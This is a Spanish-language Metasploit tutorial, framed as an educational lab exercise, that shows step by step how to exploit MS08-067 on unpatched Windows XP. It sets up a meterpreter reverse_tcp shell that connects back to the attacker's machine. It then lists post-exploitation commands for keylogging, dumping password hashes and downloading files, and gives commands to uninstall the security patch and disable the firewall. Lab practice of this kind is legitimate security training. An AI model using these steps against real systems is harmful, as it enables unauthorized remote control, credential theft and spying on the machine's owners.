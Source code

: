 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
________________________________________
## 🛡️ **¿Qué es MS08-067 (NETAPI)?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.
________________________________________
## 🧰 **Requisitos del entorno de laboratorio**
-	💻 Kali Linux (máquina atacante). https://www.kali.org/get-kali/#kali-platforms
-	🧱 Máquina víctima: Windows XP SP2/SP3 sin parches. https://archive.org/details/windows-xp-sp-2-september-2008
- Máquina víctima: Linuix (opcional). https://sourceforge.net/projects/metasploitable/
- Ambas en la misma red (real o virtual).
________________________________________
## 🧪 **Paso a paso: Explotación con Metasploit**
________________________________________
**🔹 1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>
________________________________________
**🔹 2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>
________________________________________
**🔹 3. Buscar el exploit**
<pre>search ms08_067</pre>
________________________________________
**🔹 4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>
________________________________________
**🔹 5. Ver opciones**
<pre>show options</pre>
________________________________________
**🔹 6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>
________________________________________
**🔹 7. Verificar configuración**
<pre>show options</pre>
________________________________________
**🔹 8. Ejecutar exploit**
<pre>exploit</pre>
________________________________________
## ✅ **Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.
________________________________________
## ❌ **Consejos adicionales**
-Para verificar si el Windows XP es vulnerable:
<pre> nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> </pre>
- Verificar si el parche MS08-067 esta instalado:
<pre> systeminfo | find "KB958644" </pre>
- En caso de estar instalado usar el siguiente comando para desinstalarlo:
<pre> wusa /uninstall /kb:958644 </pre>
- Desactivar firewall de Windows:
<pre> netsh firewall set opmode disable </pre>
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS08-067](https://www.exploit-db.com/exploits/7104)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/)
